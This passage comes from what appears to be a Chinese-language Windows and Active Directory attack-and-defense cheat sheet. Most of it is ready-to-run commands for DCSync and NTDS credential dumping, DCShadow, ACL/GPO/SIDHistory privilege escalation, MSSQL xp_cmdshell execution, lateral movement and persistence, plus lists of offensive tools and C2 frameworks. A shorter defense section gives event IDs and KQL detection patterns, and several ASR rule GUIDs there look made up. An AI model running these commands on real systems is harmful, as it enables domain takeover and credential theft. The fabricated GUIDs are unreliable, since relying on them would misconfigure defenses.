impacket-secretsdump -no-pass DOMAIN/DC-NAME\$@192.168.1.10

# 恢复原始密码
python3 restorepassword.py DC-NAME@192.168.1.10 -target-ip 192.168.1.10 -hexpass OLD_HASH
```

### 8.4 其他域提权漏洞

| CVE | 名称 | 影响 | 条件 |
|:----|:-----|:-----|:-----|
| CVE-2020-1472 | ZeroLogon | 域控沦陷 | 域控可达 |
| CVE-2021-42278 | samAccountName Spoofing | 域提权 | noPac |
| CVE-2021-42287 | KDC Bypass | 域提权 | noPac |
| CVE-2022-26923 | ADCS Escalation | 域提权 | ADCS |
| CVE-2014-6324 | MS14-068 | 域提权 | 无补丁 |
| CVE-2019-1040 | Drop The MIC | NTLM中继 | SMB签名 |
| CVE-2020-17049 | Bronze Bit | 委派绕过 | 约束委派 |

### 8.5 DCSync

```mimikatz
# 条件: 需域管/特定权限 (Replication权限)
# 获取指定用户hash (包括krbtgt)
lsadump::dcsync /domain:DOMAIN.LOCAL /user:krbtgt

# 获取所有用户hash
lsadump::dcsync /domain:DOMAIN.LOCAL /all

# 使用Impacket
impacket-secretsdump -just-dc DOMAIN/Administrator:Password@DC_IP
```

### 8.6 ACL滥用

```powershell
# 查找高风险ACL
# GenericAll on user
# GenericWrite on user
# WriteOwner on group
# WriteDACL on group  
# AllExtendedRights on user

# PowerView检查ACL
Get-ObjectAcl -Identity "Domain Admins" | select ActiveDirectoryRights,SecurityIdentifier

# 对用户GenericAll → 修改密码
net user targetuser Password123! /domain

# 对组GenericAll → 添加成员
Add-ADGroupMember -Identity "Domain Admins" -Members attackeruser

# 对用户GenericWrite → 设置SPN → Kerberoast
Set-DomainObject -Identity targetuser -Set @{serviceprincipalname='evil/EVE'}
```

---

## 九、Active Directory攻击

### 9.1 DCSync

如上所述，使用域管权限模拟域控请求复制AD数据。

### 9.2 DCShadow

```mimikatz
# 以隐藏域控身份注册，恶意修改AD对象
lsadump::dcshadow /object:CN=Administrator,CN=Users,DC=DOMAIN,DC=LOCAL /attribute:surname /value:Backdoor

# 推送到其他DC
lsadump::dcshadow /push
```

### 9.3 ACL路径攻击

```powershell
# BloodHound ACL路径分析
# 查找最短路径到域管
# 常见路径:
#   UserA → WriteOwner → GroupA → MemberOf → Domain Admins
#   UserB → GenericAll → UserC → AllExtendedRights → Domain Admins
#   ComputerA → AdminTo → UserD → ForceChangePassword → Domain Admins

# PowerView ACL分析
Find-InterestingDomainAcl -ResolveGUIDs
```

### 9.4 GPO滥用

```powershell
# 查找可写GPO
Get-NetGPO | %{ if(Get-ObjectAcl -ResolveGUIDs -Identity $_.Name | ?{ $_.ActiveDirectoryRights -match "Write|Create|Modify" }) { $_ } }

# GPO链接到目标OU
New-GPLink -Name "MaliciousPolicy" -Target "OU=Domain Controllers,DC=DOMAIN,DC=LOCAL"

# GPO中配置计划任务/启动脚本
# 计算机配置 → Windows设置 → 脚本 → 启动
# 用户配置 → Windows设置 → 脚本 → 登录
```

### 9.5 SIDHistory滥用

```mimikatz
# 向用户添加SIDHistory
# 条件: 需域管权限
sid::modify /sam:ATTACKER /new:S-1-5-21-...-512 /sid:S-1-5-21-...-519

# 效果: 用户获得Domain Admins/Enterprise Admins权限
# 检测: Event ID 4765, 4766
```

### 9.6 NTDS提取

```bash
# 方法1: DCSync (在线)
impacket-secretsdump -just-dc DOMAIN/Admin:Pass@DC

# 方法2: 卷影拷贝 (需本地管理员)
vssadmin create shadow /for=C:
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\temp\
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\temp\
reg save HKLM\SYSTEM C:\temp\SYSTEM

# 解析
impacket-secretsdump -ntds NTDS.dit -system SYSTEM LOCAL

# 方法3: ntdsutil
ntdsutil "ac i ntds" "ifm" "create full C:\temp\ntds" q q

# 方法4: 使用diskshadow
diskshadow /s script.txt
```

### 9.7 攻击对比

| 攻击 | 权限要求 | 隐蔽性 | 结果 |
|:----|:--------|:------|:-----|
| DCSync | DA/EA/复制权限 | 中 | 获取所有用户hash |
| DCShadow | DA+复制权限 | 高 | 隐藏修改AD |
| ACL滥用 | 相关ACL权限 | 中 | 提权/权限扩展 |
| GPO滥用 | GPO写权限 | 高 | 批量机器控制 |
| SIDHistory | DA/EA | 中 | 权限继承 |
| NTDS提取 | 本地管理员 | 低 | 获取所有用户hash |

---

## 十、MSSQL数据库攻防

### 10.1 信息收集

```sql
-- 版本信息
SELECT @@VERSION

-- 当前用户权限
SELECT IS_SRVROLEMEMBER('sysadmin')
SELECT IS_MEMBER('db_owner')
SELECT SYSTEM_USER, USER_NAME(), ORIGINAL_LOGIN()

-- 数据库列表
SELECT name, database_id FROM sys.databases

-- 链接服务器
SELECT * FROM sys.servers
SELECT * FROM sys.linked_logins
```

### 10.2 常见攻击

```sql
-- xp_cmdshell启用
EXEC sp_configure 'show advanced options', 1
RECONFIGURE
EXEC sp_configure 'xp_cmdshell', 1
RECONFIGURE
EXEC xp_cmdshell 'whoami'

-- 无xp_cmdshell时
-- 1. OLE Automation
EXEC sp_configure 'Ole Automation Procedures', 1
RECONFIGURE
DECLARE @shell INT EXEC SP_OACREATE 'wscript.shell',@shell OUTPUT EXEC SP_OAMETHOD @shell,'run',null, 'cmd.exe /c whoami > C:\temp\out.txt'

-- 2. Agent Job (需SQL Agent运行)
EXEC msdb.dbo.sp_add_job @job_name = 'Shell'
EXEC msdb.dbo.sp_add_jobstep @job_name = 'Shell', @step_name = 'CMD', @command = 'powershell.exe -Enc ...'
EXEC msdb.dbo.sp_start_job @job_name = 'Shell'

-- 3. CLR集成
EXEC sp_configure 'clr enabled', 1
RECONFIGURE
-- 创建CLR程序集并执行

-- 4. Bulk Insert + 文件操作
INSERT INTO temp_table EXEC xp_cmdshell 'type C:\Users\Administrator\Desktop\flag.txt'
```

### 10.3 SQL Server提权

```sql
-- 查看当前权限
SELECT IS_SRVROLEMEMBER('sysadmin')

-- 查看所有登录名角色
SELECT p.name, r.name 
FROM sys.server_principals p
JOIN sys.server_role_members m ON p.principal_id = m.member_principal_id
JOIN sys.server_principals r ON m.role_principal_id = r.principal_id

-- 查看可模拟的用户
SELECT * FROM sys.login_token WHERE principal_id IN (SELECT principal_id FROM sys.server_principals WHERE type IN ('S','U'))

-- 模拟用户
EXECUTE AS LOGIN = 'sa'
SELECT SYSTEM_USER
REVERT
```

### 10.4 链接服务器横向

```sql
-- 枚举链接服务器
SELECT s.name, s.product, s.provider, s.data_source, s.modify_date
FROM sys.servers s

-- 通过链接服务器执行命令
EXEC ('SELECT @@VERSION') AT [LINKED_SERVER]
EXEC ('xp_cmdshell ''whoami''') AT [LINKED_SERVER]

-- 检查链接服务器权限
EXEC ('SELECT IS_SRVROLEMEMBER(''sysadmin'')') AT [LINKED_SERVER]

-- 链接服务器提权
-- 如果链接服务器使用sa或其他高权限用户
```

---

## 十一、防御与检测

### 11.1 安全配置

| 配置项 | 描述 | 影响 |
|:-------|:-----|:-----|
| LSA保护 | 防止LSASS注入 | 阻止Mimikatz |
| Credential Guard | VBS保护凭证 | 阻止hash提取 |
| Device Guard | 代码完整性 | 阻止恶意软件 |
| Windows Defender | 实时保护 | 检测已知恶意软件 |
| ASR规则 | 攻击面减少 | 阻止常见攻击 |
| AppLocker | 应用白名单 | 阻止未授权程序 |
| WDAC | Windows Defender应用控制 | 强代码完整性 |
| 审计策略 | 安全事件记录 | 检测攻击行为 |
| SMB签名 | 防止NTLM中继 | 阻止中继攻击 |
| LDAP签名 | 防止LDAP中继 | 阻止LDAP中继 |
| LAPS | 本地管理员密码管理 | 防止PtH横向 |

### 11.2 ASR规则

| GUID | 规则 | 阻止内容 |
|:-----|:-----|:---------|
| b4bcd96e-b420-4b75-a53a-8c6e101a1c34 | 阻止Office创建子进程 | 宏→powershell |
| d3e3f2c0-1a4a-4f5a-9a3f-8c6e101a1c34 | 阻止Office创建可执行内容 | Office→恶意文件 |
| 3b576869-a4ec-4529-8536-b80a7769e899 | 阻止Office注入其他进程 | Office→sblister |
| 75668c1f-73b5-4cf0-bb93-3ecf5cb7cc84 | 阻止Office通信子进程启动 | Outlook→恶意进程 |
| 92e97fa1-2edf-4476-bdd6-9dd0b4dddc7b | 阻止PSExec/WMI进程创建 | PsExec/WMI执行 |
| 01443614-cd74-433a-b99e-2ecdc07bfc25 | 阻止LSASS凭据窃取 | Mimikatz |
| c0033c00-d16d-4112-86e2-5d3f1a2b3c4d | 阻止通过WMI事件订阅持久化 | WMI后门 |
| e6db77e5-3df2-4cf1-b95a-636979351e5b | 阻止可执行文件通过电子邮件下载 | 鱼叉邮件 |

### 11.3 Sysmon配置

```xml
<!-- Sysmon事件ID -->
<!-- 1: 进程创建 -->
<!-- 3: 网络连接 -->
<!-- 7: 镜像加载 -->
<!-- 8: CreateRemoteThread -->
<!-- 9: RawAccessRead -->
<!-- 10: ProcessAccess -->
<!-- 11: 文件创建 -->
<!-- 13: Registry值设置 -->
<!-- 15: 文件流创建 -->
<!-- 17/18: 管道创建/连接 -->
<!-- 22: DNS查询 -->

<!-- 关键检测规则 -->
<!-- EventID 1 + cmdline 包含Base64 → 可疑PowerShell -->
<!-- EventID 8 + TargetImage lsass.exe → Mimikatz -->
<!-- EventID 9 + lsass.exe → Mimikatz -->
<!-- EventID 10 + ProcessID lsass → 凭证窃取 -->
<!-- EventID 11 + filename *.dll → DLL劫持 -->
<!-- EventID 13 + RunKey → 持久化 -->
<!-- EventID 22 + .pwsh .ps1 → PS执行 -->
```

### 11.4 Windows Event Log

| Event ID | 来源 | 描述 |
|:---------|:-----|:-----|
| 4624 | Security | 登录成功 |
| 4625 | Security | 登录失败 |
| 4648 | Security | 显式凭据登录 |
| 4672 | Security | 特殊权限登录 |
| 4688 | Security | 进程创建 |
| 4698 | Security | 计划任务创建 |
| 4700 | Security | 权限提升 |
| 4719 | Security | 审计策略更改 |
| 4720 | Security | 用户创建 |
| 4732 | Security | 用户添加至组 |
| 4740 | Security | 账户锁定 |
| 4756 | Security | 通用组添加成员 |
| 4768 | Security | Kerberos TGT请求 |
| 4769 | Security | Kerberos服务票据请求 |
| 4770 | Security | Kerberos服务票据更新 |
| 4771 | Security | Kerberos预认证失败 |
| 4776 | Security | NTLM认证 |
| 4798 | Security | 用户组成员枚举 |
| 4799 | Security | 安全组成员枚举 |
| 4800 | Security | 工作站锁定 |
| 4801 | Security | 工作站解锁 |
| 5140 | Security | 文件共享访问 |
| 5142 | Security | 网络共享对象添加 |
| 5156 | Security | Windows过滤平台连接 |
| 7036 | System | 服务启动/停止 |
| 7045 | System | 服务安装 |

### 11.5 检测规则示例

```kql
# Mimikaki检测 (Event 10)
Security
| where EventID == 10
| where TargetImage contains "lsass.exe"
| where SourceImage !in ("C:\\Windows\\System32\\lsass.exe", "C:\\Windows\\System32\\winlogon.exe")

# PowerSploit检测 (Event 1 + 4688)
Security
| where EventID == 4688
| where CommandLine contains "powershell"
| where CommandLine contains "-Enc" 
   or CommandLine contains "IEX"
   or CommandLine contains "DownloadString"
   or CommandLine contains "Net.WebClient"

# DCSync检测 (Event 4662)
Security
| where EventID == 4662
| where AccessMask == "0x100"  // DS-Replication-Get-Changes
| where ObjectType contains "domainDNS"

# Golden Ticket检测 (Event 4768)
Security
| where EventID == 4768
| where AccountName == "Administrator"
| where TicketOptions == "0x50800000"  // 非标准TGT
| where TicketEncryptionType == "0x17"  // RC4 (过时)

# Pass-The-Hash检测
# 1. 检查4624登录类型3 (网络) + NTLM
# 2. 检查4769服务票据请求中的异常
# 3. 同一账户多登录来源

# 横向移动检测
# PsExec: Service Create (7045) + Process Create (4688) + pipe psexec*
# WMI: DCOM活动 (Event 5156 to localhost:135)
# WinRM: 5985/5986连接 (Event 5156)
```

### 11.6 攻击链对应检测

| 攻击阶段 | 检测事件 | 工具/规则 |
|:---------|:---------|:----------|
| 侦察 | 4648, 4798, 4799 | 异常LDAP查询/端口扫描 |
| 初始访问 | 4688, 11, 13 | 宏执行/Office创建进程 |
| 持久化 | 4698, 7045, 12, 13 | 服务/任务/注册表修改 |
| 提权 | 4672, 4700 | Token滥用/已知漏洞检测 |
| 凭证访问 | 10, 9 | LSASS访问/卷影拷贝 |
| 横向移动 | 4624, 4648, 4769 | 异常登录/服务票据 |
| 域渗透 | 4662, 4768 | DCSync/异常TGT |

### 11.7 Deception技术

| 诱饵 | 用途 | 检测 |
|:-----|:-----|:-----|
| 蜜罐用户 | 检测凭证使用 | 登录尝试 |
| 蜜罐令牌 | 检测票据盗窃 | 票据使用 |
| 虚假文件 | 检测文件访问 | 文件读取 |
| 虚假数据库 | 检测数据库扫描 | 连接尝试 |
| 蜜罐服务 | 检测扫描/连接 | 端口连接 |
| 虚假AD对象 | 检测AD枚举 | 对象访问 |
| Browser Creds | 检测凭证窃取 | 凭证使用 |

---

## 十二、速查总表

### 12.1 攻击手法速查

| 攻击 | 条件 | 工具 | 命令 |
|:-----|:-----|:-----|:------|
| 黄金票据 | krbtgt hash | Mimikatz | `kerberos::golden ...` |
| 白银票据 | 服务hash | Mimikatz | `kerberos::golden ... /service:` |
| DCSync | 域管 | Mimikatz | `lsadump::dcsync /user:krbtgt` |
| Kerberoasting | 域用户 | Rubeus | `Rubeus kerberoast` |
| AS-REP Roasting | 无预认证 | GetNPUsers | `GetNPUsers.py ...` |
| PsExec | 管理员 | Impacket | `impacket-psexec ...` |
| WMIExec | 管理员 | Impacket | `impacket-wmiexec ...` |
| Pass-The-Hash | NTLM hash | Mimikatz | `sekurlsa::pth ...` |
| ZeroLogon | 域控可达 | python | `cve-2020-1472-exploit.py` |
| MS14-068 | 域用户 | python | `ms14-068.py ...` |
| SMBGhost | Win10 1903-1909 | msf | `exploit/windows/smb/cve_2020_0796` |
| EternalBlue | Win7/2008 | msf | `exploit/windows/smb/ms17_010` |
| JuicyPotato | SeImpersonate | JuicyPotato | `JuicyPotato.exe ...` |
| GodPotato | SeImpersonate | GodPotato | `GodPotato.exe ...` |
| UAC绕过 | 管理员组 | fodhelper | `reg add ... fodhelper.exe` |

### 12.2 Windows命令速查

#### 信息收集
```
whoami /all                → 当前用户所有信息
net user /domain           → 域用户列表
net group "Domain Admins"  → 域管理员
systeminfo                 → 系统信息
wmic qfe list              → 补丁列表
tasklist /v                → 进程列表
netstat -ano               → 网络连接
ipconfig /all              → 网络配置
route print                → 路由表
arp -a                     → ARP表
schtasks /query /fo LIST   → 计划任务
wmic service list brief    → 服务列表
gpresult /r                → 组策略结果
```

#### 权限提升
```
whoami /priv               → 检查特权
wmic qfe get HotFixID      → 检查补丁
icacls file.exe            → 检查权限
accesschk.exe ...          → 检查权限
```

#### 横向移动
```
wmic /node:TARGET process create "cmd.exe /c command"
schtasks /create /s TARGET ...
sc \\TARGET create ...
PsExec.exe \\TARGET cmd.exe
winrs -r:TARGET cmd.exe
```

#### 权限维持
```
reg add HKLM\...\Run /v Name /t REG_SZ /d "cmd.exe"
schtasks /create /tn Name /tr "cmd.exe" /sc onlogon
sc create Name binPath="cmd.exe" start=auto
```

### 12.3 推荐工具

| 工具 | 用途 | 来源 |
|:-----|:-----|:-----|
| Mimikatz | 凭证提取 | github.com/gentilkiwi/mimikatz |
| Impacket | 网络协议工具 | github.com/SecureAuthCorp/impacket |
| BloodHound | AD分析 | github.com/BloodHoundAD/BloodHound |
| PowerView | AD枚举 | github.com/PowerShellMafia/PowerSploit |
| Rubeus | Kerberos攻击 | github.com/GhostPack/Rubeus |
| WinPEAS | 提权检查 | github.com/carlospolop/PEASS-ng |
| Sysinternals | 系统工具 | docs.microsoft.com/sysinternals |
| Responder | 网络投毒 | github.com/SpiderLabs/Responder |
| Cobalt Strike | 商业C2 | cobaltstrike.com |
| Sliver | 开源C2 | github.com/BishopFox/sliver |
| Covenant | .NET C2 | github.com/cobbr/Covenant |
| Evil-WinRM | WinRM Shell | github.com/Hackplayers/evil-winrm |
| CrackMapExec | 自动化横向 | github.com/byt3bl33d3r/CrackMapExec |
| Netexec | 替代CME | github.com/Pennyw0rth/NetExec |
| Certipy | ADCS攻击 | github.com/ly4k/Certipy |

---

> **参考资源**
>
> - MITRE ATT&CK Windows Matrix
> - OWASP Windows Exploitation
> - HackTricks Windows
> - Active Directory Security Blog
> - SpecterOps Blog
> - Microsoft Security Documentation


[密码学攻击与哈希传递](31-crypto-pth.md)